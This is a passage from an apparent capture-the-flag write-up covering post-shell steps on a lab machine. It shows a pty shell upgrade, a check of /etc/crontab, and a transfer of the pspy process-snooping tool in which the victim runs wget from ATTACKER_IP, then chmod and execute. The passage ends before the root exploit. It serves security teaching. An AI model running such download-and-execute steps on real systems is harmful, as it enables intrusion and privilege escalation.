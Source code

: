 A new shell! We can make things a little nicer by running 
the following

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

## Root
### Intended Root
> Are there any processes run as root on a schedule?
{: .prompt-tip }

We can check for scheduled commands or cron jobs by 
checking `/etc/crontab`

```bash
cat /etc/crontab
```

![crontab](/images/team/team-gyles-crontab.png)

Wait... There's nothing here! This is true but 
`/etc/crontab` isn't the only way to get files to run on 
a schedule. If we want to view running processes 
in real time, we can use the
[process snooping tool pspy](https://github.com/DominicBreuker/pspy/releases){:target="_blank"}{:rel="noopener noreferrer"}

Download the binary on your machine
([pspy64](https://github.com/DominicBreuker/pspy/releases){:target="_blank"}{:rel="noopener noreferrer"}
in our case) and upload it to the victim machine

```bash
# attacking machine in the directory with pspy
python3 -m http.server 80

# victim machine
wget http://ATTACKER_IP/pspy64
chmod +x pspy64
./pspy64
```
